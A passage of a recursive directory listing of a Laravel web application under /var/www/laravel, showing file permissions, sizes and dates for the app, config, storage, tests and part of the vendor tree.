drwxr-xr-x 2 www-data www-data 4.0K Apr  9  2017 Middleware

/var/www/laravel/app/Http/Controllers:
total 16K
drwxr-xr-x 3 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 4 www-data www-data 4.0K Apr  9  2017 ..
drwxr-xr-x 2 www-data www-data 4.0K Apr  9  2017 Auth
-rw-r--r-- 1 www-data www-data  361 Apr  9  2017 Controller.php

/var/www/laravel/app/Http/Controllers/Auth:
total 24K
drwxr-xr-x 2 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data  834 Apr  9  2017 ForgotPasswordController.php
-rw-r--r-- 1 www-data www-data  949 Apr  9  2017 LoginController.php
-rw-r--r-- 1 www-data www-data 1.8K Apr  9  2017 RegisterController.php
-rw-r--r-- 1 www-data www-data  952 Apr  9  2017 ResetPasswordController.php

/var/www/laravel/app/Http/Middleware:
total 24K
drwxr-xr-x 2 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 4 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data  300 Apr  9  2017 EncryptCookies.php
-rw-r--r-- 1 www-data www-data  523 Apr  9  2017 RedirectIfAuthenticated.php
-rw-r--r-- 1 www-data www-data  342 Apr  9  2017 TrimStrings.php
-rw-r--r-- 1 www-data www-data  311 Apr  9  2017 VerifyCsrfToken.php

/var/www/laravel/app/Providers:
total 28K
drwxr-xr-x 2 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 6 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data  403 Apr  9  2017 AppServiceProvider.php
-rw-r--r-- 1 www-data www-data  575 Apr  9  2017 AuthServiceProvider.php
-rw-r--r-- 1 www-data www-data  380 Apr  9  2017 BroadcastServiceProvider.php
-rw-r--r-- 1 www-data www-data  596 Apr  9  2017 EventServiceProvider.php
-rw-r--r-- 1 www-data www-data 1.5K Apr  9  2017 RouteServiceProvider.php

/var/www/laravel/bootstrap:
total 20K
drwxr-xr-x  3 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 13 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r--  1 www-data www-data 1.6K Apr  9  2017 app.php
-rw-r--r--  1 www-data www-data  559 Apr  9  2017 autoload.php
drwxr-xr-x  2 www-data www-data 4.0K Apr  9  2017 cache

/var/www/laravel/bootstrap/cache:
total 24K
drwxr-xr-x 2 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data   14 Apr  9  2017 .gitignore
-rw-r--r-- 1 www-data www-data  12K Apr  9  2017 services.php

/var/www/laravel/config:
total 68K
drwxr-xr-x  2 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 13 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r--  1 www-data www-data 9.0K Apr  9  2017 app.php
-rw-r--r--  1 www-data www-data 3.2K Apr  9  2017 auth.php
-rw-r--r--  1 www-data www-data 1.5K Apr  9  2017 broadcasting.php
-rw-r--r--  1 www-data www-data 2.6K Apr  9  2017 cache.php
-rw-r--r--  1 www-data www-data 3.5K Apr  9  2017 database.php
-rw-r--r--  1 www-data www-data 2.0K Apr  9  2017 filesystems.php
-rw-r--r--  1 www-data www-data 4.2K Apr  9  2017 mail.php
-rw-r--r--  1 www-data www-data 2.5K Apr  9  2017 queue.php
-rw-r--r--  1 www-data www-data  980 Apr  9  2017 services.php
-rw-r--r--  1 www-data www-data 6.2K Apr  9  2017 session.php
-rw-r--r--  1 www-data www-data 1004 Apr  9  2017 view.php

/var/www/laravel/database:
total 24K
drwxr-xr-x  5 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 13 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r--  1 www-data www-data    9 Apr  9  2017 .gitignore
drwxr-xr-x  2 www-data www-data 4.0K Apr  9  2017 factories
drwxr-xr-x  2 www-data www-data 4.0K Apr  9  2017 migrations
drwxr-xr-x  2 www-data www-data 4.0K Apr  9  2017 seeds

/var/www/laravel/database/factories:
total 12K
drwxr-xr-x 2 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 5 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data  761 Apr  9  2017 ModelFactory.php

/var/www/laravel/database/migrations:
total 16K
drwxr-xr-x 2 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 5 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data  746 Apr  9  2017 2014_10_12_000000_create_users_table.php
-rw-r--r-- 1 www-data www-data  683 Apr  9  2017 2014_10_12_100000_create_password_resets_table.php

/var/www/laravel/database/seeds:
total 12K
drwxr-xr-x 2 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 5 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data  241 Apr  9  2017 DatabaseSeeder.php

/var/www/laravel/public:
total 32K
drwxr-xr-x  4 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 13 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r--  1 www-data www-data  553 Apr  9  2017 .htaccess
drwxr-xr-x  2 www-data www-data 4.0K Apr  9  2017 css
-rw-r--r--  1 www-data www-data    0 Apr  9  2017 favicon.ico
-rw-r--r--  1 www-data www-data 1.8K Apr  9  2017 index.php
drwxr-xr-x  2 www-data www-data 4.0K Apr  9  2017 js
-rw-r--r--  1 www-data www-data   24 Apr  9  2017 robots.txt
-rw-r--r--  1 www-data www-data  914 Apr  9  2017 web.config

/var/www/laravel/public/css:
total 124K
drwxr-xr-x 2 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 4 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data 116K Apr  9  2017 app.css

/var/www/laravel/public/js:
total 288K
drwxr-xr-x 2 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 4 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data 278K Apr  9  2017 app.js

/var/www/laravel/resources:
total 20K
drwxr-xr-x  5 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 13 www-data www-data 4.0K Apr  9  2017 ..
drwxr-xr-x  4 www-data www-data 4.0K Apr  9  2017 assets
drwxr-xr-x  3 www-data www-data 4.0K Apr  9  2017 lang
drwxr-xr-x  2 www-data www-data 4.0K Apr  9  2017 views

/var/www/laravel/resources/assets:
total 16K
drwxr-xr-x 4 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 5 www-data www-data 4.0K Apr  9  2017 ..
drwxr-xr-x 3 www-data www-data 4.0K Apr  9  2017 js
drwxr-xr-x 2 www-data www-data 4.0K Apr  9  2017 sass

/var/www/laravel/resources/assets/js:
total 20K
drwxr-xr-x 3 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 4 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data  577 Apr  9  2017 app.js
-rw-r--r-- 1 www-data www-data 1.4K Apr  9  2017 bootstrap.js
drwxr-xr-x 2 www-data www-data 4.0K Apr  9  2017 components

/var/www/laravel/resources/assets/js/components:
total 12K
drwxr-xr-x 2 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data  563 Apr  9  2017 Example.vue

/var/www/laravel/resources/assets/sass:
total 16K
drwxr-xr-x 2 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 4 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data  873 Apr  9  2017 _variables.scss
-rw-r--r-- 1 www-data www-data  201 Apr  9  2017 app.scss

/var/www/laravel/resources/lang:
total 12K
drwxr-xr-x 3 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 5 www-data www-data 4.0K Apr  9  2017 ..
drwxr-xr-x 2 www-data www-data 4.0K Apr  9  2017 en

/var/www/laravel/resources/lang/en:
total 28K
drwxr-xr-x 2 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data  617 Apr  9  2017 auth.php
-rw-r--r-- 1 www-data www-data  534 Apr  9  2017 pagination.php
-rw-r--r-- 1 www-data www-data  786 Apr  9  2017 passwords.php
-rw-r--r-- 1 www-data www-data 6.4K Apr  9  2017 validation.php

/var/www/laravel/resources/views:
total 12K
drwxr-xr-x 2 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 5 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data 2.7K Apr  9  2017 welcome.blade.php

/var/www/laravel/routes:
total 24K
drwxr-xr-x  2 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 13 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r--  1 www-data www-data  528 Apr  9  2017 api.php
-rw-r--r--  1 www-data www-data  508 Apr  9  2017 channels.php
-rw-r--r--  1 www-data www-data  553 Apr  9  2017 console.php
-rw-r--r--  1 www-data www-data  453 Apr  9  2017 web.php

/var/www/laravel/storage:
total 20K
drwxr-xr-x  5 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 13 www-data www-data 4.0K Apr  9  2017 ..
drwxr-xr-x  3 www-data www-data 4.0K Apr  9  2017 app
drwxr-xr-x  6 www-data www-data 4.0K Apr  9  2017 framework
drwxr-xr-x  2 www-data www-data 4.0K Apr  9  2017 logs

/var/www/laravel/storage/app:
total 16K
drwxr-xr-x 3 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 5 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data   23 Apr  9  2017 .gitignore
drwxr-xr-x 2 www-data www-data 4.0K Apr  9  2017 public

/var/www/laravel/storage/app/public:
total 12K
drwxr-xr-x 2 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data   14 Apr  9  2017 .gitignore

/var/www/laravel/storage/framework:
total 28K
drwxr-xr-x 6 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 5 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data  103 Apr  9  2017 .gitignore
drwxr-xr-x 2 www-data www-data 4.0K Apr  9  2017 cache
drwxr-xr-x 2 www-data www-data 4.0K Jan 27 19:02 sessions
drwxr-xr-x 2 www-data www-data 4.0K Apr  9  2017 testing
drwxr-xr-x 2 www-data www-data 4.0K Apr  9  2017 views

/var/www/laravel/storage/framework/cache:
total 12K
drwxr-xr-x 2 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 6 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data   14 Apr  9  2017 .gitignore

/var/www/laravel/storage/framework/sessions:
total 36K
drwxr-xr-x 2 www-data www-data 4.0K Jan 27 19:02 .
drwxr-xr-x 6 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data   14 Apr  9  2017 .gitignore
-rw-r--r-- 1 www-data www-data  175 Jan 27 18:26 3Zd4Vcu1FI2lQnSQiszCzR8BidSqTYos63ylRylh
-rw-r--r-- 1 www-data www-data  179 Apr  9  2017 FN3lutVJT43d3HK689A2l0qvJBtsf2xjj0eSmqso
-rw-r--r-- 1 www-data www-data  179 Jan 27 19:02 MernjPHgZJv9CFI4zUQ4YjaivefyeO5Vj5iN6y9F
-rw-r--r-- 1 www-data www-data  175 Jan 27 18:36 VoqEBEjbdiEorFxbWNX0iu1lxTbhTIOoTKmbYHLR
-rw-r--r-- 1 www-data www-data  180 Apr  9  2017 WFJ8pBfiayyMMH2S5jzH7JODl27e5oS6OFxzHT0a
-rw-r--r-- 1 www-data www-data  175 Jan 27 18:35 q3OKodkJwRQImEL7Ik4OigLz15ejN1BA2cXmqRZk

/var/www/laravel/storage/framework/testing:
total 12K
drwxr-xr-x 2 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 6 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data   14 Apr  9  2017 .gitignore

/var/www/laravel/storage/framework/views:
total 16K
drwxr-xr-x 2 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 6 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data   14 Apr  9  2017 .gitignore
-rw-r--r-- 1 www-data www-data 2.8K Apr  9  2017 24f4512b760336fe6f663d547ab4b08077451f92.php

/var/www/laravel/storage/logs:
total 12K
drwxr-xr-x 2 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 5 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data   14 Apr  9  2017 .gitignore

/var/www/laravel/tests:
total 24K
drwxr-xr-x  4 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 13 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r--  1 www-data www-data  380 Apr  9  2017 CreatesApplication.php
drwxr-xr-x  2 www-data www-data 4.0K Apr  9  2017 Feature
-rw-r--r--  1 www-data www-data  163 Apr  9  2017 TestCase.php
drwxr-xr-x  2 www-data www-data 4.0K Apr  9  2017 Unit

/var/www/laravel/tests/Feature:
total 12K
drwxr-xr-x 2 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 4 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data  452 Apr  9  2017 ExampleTest.php

/var/www/laravel/tests/Unit:
total 12K
drwxr-xr-x 2 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 4 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data  353 Apr  9  2017 ExampleTest.php

/var/www/laravel/vendor:
total 128K
drwxr-xr-x 31 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 13 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r--  1 www-data www-data  178 Apr  9  2017 autoload.php
drwxr-xr-x  2 www-data www-data 4.0K Apr  9  2017 bin
drwxr-xr-x  2 www-data www-data 4.0K Apr  9  2017 composer
drwxr-xr-x  3 www-data www-data 4.0K Apr  9  2017 dnoegel
drwxr-xr-x  4 www-data www-data 4.0K Apr  9  2017 doctrine
drwxr-xr-x  3 www-data www-data 4.0K Apr  9  2017 erusev
drwxr-xr-x  3 www-data www-data 4.0K Apr  9  2017 fzaninotto
drwxr-xr-x  3 www-data www-data 4.0K Apr  9  2017 hamcrest
drwxr-xr-x  4 www-data www-data 4.0K Apr  9  2017 jakub-onderka
drwxr-xr-x  4 www-data www-data 4.0K Apr  9  2017 laravel
drwxr-xr-x  3 www-data www-data 4.0K Apr  9  2017 league
drwxr-xr-x  3 www-data www-data 4.0K Apr  9  2017 mockery
drwxr-xr-x  3 www-data www-data 4.0K Apr  9  2017 monolog
drwxr-xr-x  3 www-data www-data 4.0K Apr  9  2017 mtdowling
drwxr-xr-x  3 www-data www-data 4.0K Apr  9  2017 myclabs
drwxr-xr-x  3 www-data www-data 4.0K Apr  9  2017 nesbot
drwxr-xr-x  3 www-data www-data 4.0K Apr  9  2017 nikic
drwxr-xr-x  3 www-data www-data 4.0K Apr  9  2017 paragonie
drwxr-xr-x  5 www-data www-data 4.0K Apr  9  2017 phpdocumentor
drwxr-xr-x  3 www-data www-data 4.0K Apr  9  2017 phpspec
drwxr-xr-x  9 www-data www-data 4.0K Apr  9  2017 phpunit
drwxr-xr-x  3 www-data www-data 4.0K Apr  9  2017 psr
drwxr-xr-x  3 www-data www-data 4.0K Apr  9  2017 psy
drwxr-xr-x  3 www-data www-data 4.0K Apr  9  2017 ramsey
drwxr-xr-x 12 www-data www-data 4.0K Apr  9  2017 sebastian
drwxr-xr-x  3 www-data www-data 4.0K Apr  9  2017 swiftmailer
drwxr-xr-x 15 www-data www-data 4.0K Apr  9  2017 symfony
drwxr-xr-x  3 www-data www-data 4.0K Apr  9  2017 tijsverkoyen
drwxr-xr-x  3 www-data www-data 4.0K Apr  9  2017 vlucas
drwxr-xr-x  3 www-data www-data 4.0K Apr  9  2017 webmozart

/var/www/laravel/vendor/bin:
total 8.0K
drwxr-xr-x  2 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 31 www-data www-data 4.0K Apr  9  2017 ..
lrwxrwxrwx  1 www-data www-data   33 Apr  9  2017 php-parse -> ../nikic/php-parser/bin/php-parse
lrwxrwxrwx  1 www-data www-data   26 Apr  9  2017 phpunit -> ../phpunit/phpunit/phpunit
lrwxrwxrwx  1 www-data www-data   22 Apr  9  2017 psysh -> ../psy/psysh/bin/psysh

/var/www/laravel/vendor/composer:
total 904K
drwxr-xr-x  2 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 31 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r--  1 www-data www-data  14K Apr  9  2017 ClassLoader.php
-rw-r--r--  1 www-data www-data 1.1K Apr  9  2017 LICENSE
-rw-r--r--  1 www-data www-data 354K Apr  9  2017 autoload_classmap.php
-rw-r--r--  1 www-data www-data  975 Apr  9  2017 autoload_files.php
-rw-r--r--  1 www-data www-data  635 Apr  9  2017 autoload_namespaces.php
-rw-r--r--  1 www-data www-data 2.8K Apr  9  2017 autoload_psr4.php
-rw-r--r--  1 www-data www-data 2.4K Apr  9  2017 autoload_real.php
-rw-r--r--  1 www-data www-data 389K Apr  9  2017 autoload_static.php
-rw-r--r--  1 www-data www-data 110K Apr  9  2017 installed.json

/var/www/laravel/vendor/dnoegel:
total 12K
drwxr-xr-x  3 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 31 www-data www-data 4.0K Apr  9  2017 ..
drwxr-xr-x  4 www-data www-data 4.0K Apr  9  2017 php-xdg-base-dir

/var/www/laravel/vendor/dnoegel/php-xdg-base-dir:
total 36K
drwxr-xr-x 4 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data    9 Oct 24  2014 .gitignore
-rw-r--r-- 1 www-data www-data 1.1K Oct 24  2014 LICENSE
-rw-r--r-- 1 www-data www-data  728 Oct 24  2014 README.md
-rw-r--r-- 1 www-data www-data  372 Oct 24  2014 composer.json
-rw-r--r-- 1 www-data www-data  615 Oct 24  2014 phpunit.xml.dist
drwxr-xr-x 2 www-data www-data 4.0K Oct 24  2014 src
drwxr-xr-x 2 www-data www-data 4.0K Oct 24  2014 tests

/var/www/laravel/vendor/dnoegel/php-xdg-base-dir/src:
total 12K
drwxr-xr-x 2 www-data www-data 4.0K Oct 24  2014 .
drwxr-xr-x 4 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data 2.9K Oct 24  2014 Xdg.php

/var/www/laravel/vendor/dnoegel/php-xdg-base-dir/tests:
total 12K
drwxr-xr-x 2 www-data www-data 4.0K Oct 24  2014 .
drwxr-xr-x 4 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data 3.2K Oct 24  2014 XdgTest.php

/var/www/laravel/vendor/doctrine:
total 16K
drwxr-xr-x  4 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 31 www-data www-data 4.0K Apr  9  2017 ..
drwxr-xr-x  4 www-data www-data 4.0K Apr  9  2017 inflector
drwxr-xr-x  4 www-data www-data 4.0K Apr  9  2017 instantiator

/var/www/laravel/vendor/doctrine/inflector:
total 40K
drwxr-xr-x 4 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 4 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data   48 Nov  6  2015 .gitignore
-rw-r--r-- 1 www-data www-data  186 Nov  6  2015 .travis.yml
-rw-r--r-- 1 www-data www-data 1.1K Nov  6  2015 LICENSE
-rw-r--r-- 1 www-data www-data  287 Nov  6  2015 README.md
-rw-r--r-- 1 www-data www-data  970 Nov  6  2015 composer.json
drwxr-xr-x 3 www-data www-data 4.0K Nov  6  2015 lib
-rw-r--r-- 1 www-data www-data  821 Nov  6  2015 phpunit.xml.dist
drwxr-xr-x 3 www-data www-data 4.0K Nov  6  2015 tests

/var/www/laravel/vendor/doctrine/inflector/lib:
total 12K
drwxr-xr-x 3 www-data www-data 4.0K Nov  6  2015 .
drwxr-xr-x 4 www-data www-data 4.0K Apr  9  2017 ..
drwxr-xr-x 3 www-data www-data 4.0K Nov  6  2015 Doctrine

/var/www/laravel/vendor/doctrine/inflector/lib/Doctrine:
total 12K
drwxr-xr-x 3 www-data www-data 4.0K Nov  6  2015 .
drwxr-xr-x 3 www-data www-data 4.0K Nov  6  2015 ..
drwxr-xr-x 3 www-data www-data 4.0K Nov  6  2015 Common

/var/www/laravel/vendor/doctrine/inflector/lib/Doctrine/Common:
total 12K
drwxr-xr-x 3 www-data www-data 4.0K Nov  6  2015 .
drwxr-xr-x 3 www-data www-data 4.0K Nov  6  2015 ..
drwxr-xr-x 2 www-data www-data 4.0K Nov  6  2015 Inflector

/var/www/laravel/vendor/doctrine/inflector/lib/Doctrine/Common/Inflector:
total 28K
drwxr-xr-x 2 www-data www-data 4.0K Nov  6  2015 .
drwxr-xr-x 3 www-data www-data 4.0K Nov  6  2015 ..
-rw-r--r-- 1 www-data www-data  17K Nov  6  2015 Inflector.php

/var/www/laravel/vendor/doctrine/inflector/tests:
total 12K
drwxr-xr-x 3 www-data www-data 4.0K Nov  6  2015 .
drwxr-xr-x 4 www-data www-data 4.0K Apr  9  2017 ..
drwxr-xr-x 3 www-data www-data 4.0K Nov  6  2015 Doctrine

/var/www/laravel/vendor/doctrine/inflector/tests/Doctrine:
total 12K
drwxr-xr-x 3 www-data www-data 4.0K Nov  6  2015 .
drwxr-xr-x 3 www-data www-data 4.0K Nov  6  2015 ..
drwxr-xr-x 3 www-data www-data 4.0K Nov  6  2015 Tests

/var/www/laravel/vendor/doctrine/inflector/tests/Doctrine/Tests:
total 20K
drwxr-xr-x 3 www-data www-data 4.0K Nov  6  2015 .
drwxr-xr-x 3 www-data www-data 4.0K Nov  6  2015 ..
drwxr-xr-x 3 www-data www-data 4.0K Nov  6  2015 Common
-rw-r--r-- 1 www-data www-data  164 Nov  6  2015 DoctrineTestCase.php
-rw-r--r-- 1 www-data www-data  717 Nov  6  2015 TestInit.php

/var/www/laravel/vendor/doctrine/inflector/tests/Doctrine/Tests/Common:
total 12K
drwxr-xr-x 3 www-data www-data 4.0K Nov  6  2015 .
drwxr-xr-x 3 www-data www-data 4.0K Nov  6  2015 ..
drwxr-xr-x 2 www-data www-data 4.0K Nov  6  2015 Inflector

/var/www/laravel/vendor/doctrine/inflector/tests/Doctrine/Tests/Common/Inflector:
total 20K
drwxr-xr-x 2 www-data www-data 4.0K Nov  6  2015 .
drwxr-xr-x 3 www-data www-data 4.0K Nov  6  2015 ..
-rw-r--r-- 1 www-data www-data  11K Nov  6  2015 InflectorTest.php

/var/www/laravel/vendor/doctrine/instantiator:
total 56K
drwxr-xr-x 4 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 4 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data   55 Jun 15  2015 .gitignore
-rw-r--r-- 1 www-data www-data 1.2K Jun 15  2015 .scrutinizer.yml
-rwxr-xr-x 1 www-data www-data  546 Jun 15  2015 .travis.install.sh
-rw-r--r-- 1 www-data www-data  897 Jun 15  2015 .travis.yml
-rw-r--r-- 1 www-data www-data 1.1K Jun 15  2015 CONTRIBUTING.md
-rw-r--r-- 1 www-data www-data 1.1K Jun 15  2015 LICENSE
-rw-r--r-- 1 www-data www-data 1.9K Jun 15  2015 README.md
-rw-r--r-- 1 www-data www-data 1.4K Jun 15  2015 composer.json
-rw-r--r-- 1 www-data www-data 1.1K Jun 15  2015 phpmd.xml.dist
-rw-r--r-- 1 www-data www-data  635 Jun 15  2015 phpunit.xml.dist
drwxr-xr-x 3 www-data www-data 4.0K Jun 15  2015 src
drwxr-xr-x 3 www-data www-data 4.0K Jun 15  2015 tests

/var/www/laravel/vendor/doctrine/instantiator/src:
total 12K
drwxr-xr-x 3 www-data www-data 4.0K Jun 15  2015 .
drwxr-xr-x 4 www-data www-data 4.0K Apr  9  2017 ..
drwxr-xr-x 3 www-data www-data 4.0K Jun 15  2015 Doctrine

/var/www/laravel/vendor/doctrine/instantiator/src/Doctrine:
total 12K
drwxr-xr-x 3 www-data www-data 4.0K Jun 15  2015 .
drwxr-xr-x 3 www-data www-data 4.0K Jun 15  2015 ..
drwxr-xr-x 3 www-data www-data 4.0K Jun 15  2015 Instantiator

/var/www/laravel/vendor/doctrine/instantiator/src/Doctrine/Instantiator:
total 28K
drwxr-xr-x 3 www-data www-data 4.0K Jun 15  2015 .
drwxr-xr-x 3 www-data www-data 4.0K Jun 15  2015 ..
drwxr-xr-x 2 www-data www-data 4.0K Jun 15  2015 Exception
-rw-r--r-- 1 www-data www-data 8.2K Jun 15  2015 Instantiator.php
-rw-r--r-- 1 www-data www-data 1.4K Jun 15  2015 InstantiatorInterface.php

/var/www/laravel/vendor/doctrine/instantiator/src/Doctrine/Instantiator/Exception:
total 20K
drwxr-xr-x 2 www-data www-data 4.0K Jun 15  2015 .
drwxr-xr-x 3 www-data www-data 4.0K Jun 15  2015 ..
-rw-r--r-- 1 www-data www-data 1.2K Jun 15  2015 ExceptionInterface.php
-rw-r--r-- 1 www-data www-data 2.3K Jun 15  2015 InvalidArgumentException.php
-rw-r--r-- 1 www-data www-data 2.8K Jun 15  2015 UnexpectedValueException.php

/var/www/laravel/vendor/doctrine/instantiator/tests:
total 12K
drwxr-xr-x 3 www-data www-data 4.0K Jun 15  2015 .
drwxr-xr-x 4 www-data www-data 4.0K Apr  9  2017 ..
drwxr-xr-x 5 www-data www-data 4.0K Jun 15  2015 DoctrineTest

/var/www/laravel/vendor/doctrine/instantiator/tests/DoctrineTest:
total 20K
drwxr-xr-x 5 www-data www-data 4.0K Jun 15  2015 .
drwxr-xr-x 3 www-data www-data 4.0K Jun 15  2015 ..
drwxr-xr-x 2 www-data www-data 4.0K Jun 15  2015 InstantiatorPerformance
drwxr-xr-x 3 www-data www-data 4.0K Jun 15  2015 InstantiatorTest
drwxr-xr-x 2 www-data www-data 4.0K Jun 15  2015 InstantiatorTestAsset

/var/www/laravel/vendor/doctrine/instantiator/tests/DoctrineTest/InstantiatorPerformance:
total 12K
drwxr-xr-x 2 www-data www-data 4.0K Jun 15  2015 .
drwxr-xr-x 5 www-data www-data 4.0K Jun 15  2015 ..
-rw-r--r-- 1 www-data www-data 3.1K Jun 15  2015 InstantiatorPerformanceEvent.php

/var/www/laravel/vendor/doctrine/instantiator/tests/DoctrineTest/InstantiatorTest:
total 20K
drwxr-xr-x 3 www-data www-data 4.0K Jun 15  2015 .
drwxr-xr-x 5 www-data www-data 4.0K Jun 15  2015 ..
drwxr-xr-x 2 www-data www-data 4.0K Jun 15  2015 Exception
-rw-r--r-- 1 www-data www-data 7.5K Jun 15  2015 InstantiatorTest.php

/var/www/laravel/vendor/doctrine/instantiator/tests/DoctrineTest/InstantiatorTest/Exception:
total 16K
drwxr-xr-x 2 www-data www-data 4.0K Jun 15  2015 .
drwxr-xr-x 3 www-data www-data 4.0K Jun 15  2015 ..
-rw-r--r-- 1 www-data www-data 3.3K Jun 15  2015 InvalidArgumentExceptionTest.php
-rw-r--r-- 1 www-data www-data 3.0K Jun 15  2015 UnexpectedValueExceptionTest.php

/var/www/laravel/vendor/doctrine/instantiator/tests/DoctrineTest/InstantiatorTestAsset:
total 60K
drwxr-xr-x 2 www-data www-data 4.0K Jun 15  2015 .
drwxr-xr-x 5 www-data www-data 4.0K Jun 15  2015 ..
-rw-r--r-- 1 www-data www-data 1.2K Jun 15  2015 AbstractClassAsset.php
-rw-r--r-- 1 www-data www-data 1.5K Jun 15  2015 ArrayObjectAsset.php
-rw-r--r-- 1 www-data www-data 1.5K Jun 15  2015 ExceptionAsset.php
-rw-r--r-- 1 www-data www-data 1.5K Jun 15  2015 FinalExceptionAsset.php
-rw-r--r-- 1 www-data www-data 1.5K Jun 15  2015 PharAsset.php
-rw-r--r-- 1 www-data www-data 1.6K Jun 15  2015 PharExceptionAsset.php
-rw-r--r-- 1 www-data www-data 1.9K Jun 15  2015 SerializableArrayObjectAsset.php
-rw-r--r-- 1 www-data www-data 1.8K Jun 15  2015 SimpleSerializableAsset.php
-rw-r--r-- 1 www-data www-data 1.2K Jun 15  2015 SimpleTraitAsset.php
-rw-r--r-- 1 www-data www-data 1.6K Jun 15  2015 UnCloneableAsset.php
-rw-r--r-- 1 www-data www-data 1.4K Jun 15  2015 UnserializeExceptionArrayObjectAsset.php
-rw-r--r-- 1 www-data www-data 1.4K Jun 15  2015 WakeUpNoticesAsset.php
-rw-r--r-- 1 www-data www-data 1.5K Jun 15  2015 XMLReaderAsset.php

/var/www/laravel/vendor/erusev:
total 12K
drwxr-xr-x  3 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 31 www-data www-data 4.0K Apr  9  2017 ..
drwxr-xr-x  3 www-data www-data 4.0K Apr  9  2017 parsedown

/var/www/laravel/vendor/erusev/parsedown:
total 72K
drwxr-xr-x 3 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data  165 Mar 29  2017 .travis.yml
-rw-r--r-- 1 www-data www-data 1.1K Mar 29  2017 LICENSE.txt
-rw-r--r-- 1 www-data www-data  38K Mar 29  2017 Parsedown.php
